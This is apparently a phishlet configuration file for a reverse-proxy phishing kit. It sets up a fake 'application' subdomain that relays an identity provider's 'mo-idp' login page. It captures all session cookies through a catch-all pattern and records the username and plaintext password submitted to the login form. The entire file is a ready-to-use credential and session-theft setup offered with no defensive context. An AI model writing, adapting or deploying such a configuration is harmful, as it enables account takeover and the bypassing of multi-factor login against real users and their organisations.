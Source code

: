 
author: 'sny7er'
min_ver: '2.3.0'
proxy_hosts:

  - {phish_sub: 'application', orig_sub: 'mo-idp', domain: 'domain.com', session: true, is_landing: true, auto_filter: true}

auth_tokens:
  - domain: 'application.domain.com'
    keys: ['.*,regexp']
auth_urls:
  - '/enduserwelcome'
credentials:
  username:
    key: 'username'
    search: '(.*)'
    type: 'post'
  password:
    key: 'plaintextPassword'
    search: '(.*)'
    type: 'post'

login:
  domain: 'application.domain.com'
  path: '/login'
  
